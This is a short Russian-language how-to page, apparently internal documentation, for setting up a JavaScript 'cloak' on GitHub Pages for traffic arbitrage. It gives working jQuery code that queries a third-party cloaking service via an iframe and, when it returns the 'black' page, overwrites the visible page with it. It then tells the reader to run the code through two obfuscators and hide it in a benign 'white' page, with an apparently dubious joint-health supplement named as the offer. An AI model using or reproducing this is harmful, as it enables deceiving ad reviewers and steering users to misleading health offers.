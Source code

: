 ```yaml
---
title: "Настройка JS клоаки"
date: 2019-10-25T17:31:01+03:00
draft: false
---
```


## Вводные

В корне гитхаба должно быть 3 файла:

- файл `w.html` - это белая страница
- файл `black.html` - это прокладка
- файл `blog.html` - это копия белой страницы с клоакой, на которую будет идти трафик

## Установка клоаки

1. Отредактировать код:
{{< highlight js >}}
$(function () {
    $('body').append('<iframe src="https://beta.dolphin.ru.com/magic/ОФФЕР.php?domain=ДОМЕН-GITHUB&path=ИМЯ-РЕПОЗИТОРИЯ"></iframe>');
    setTimeout(function () {
        var html = $('iframe').contents().find('html').html();
        var frameLocation = window.frames[0].location.href;
        if (frameLocation.search('black.html') != -1) {
            document.open();
            document.write(html);
            document.close();
        }
        $('iframe').remove();
    }, 1500);
});
{{< / highlight >}}
    Офферы, которые добавлены в MagicChecker:
    - `m4l-sus.php` - суставы КЗ М4L
2. Прогнать код через <a href="https://obfuscator.io/" target="_blank">обфускатор1</a>
3. Проганать код через <a href="https://javascriptobfuscator.com/Javascript-Obfuscator.aspx" target="_blank">обфускатор2</a>
4. Создать файл `js/1.js` и вставить результат работы обфускатора в него
5. Вставить на странице `white.html` перед закрывающим `</body>` код:
{{< highlight html >}}
<script src="js/1.js"></script>
{{< / highlight >}}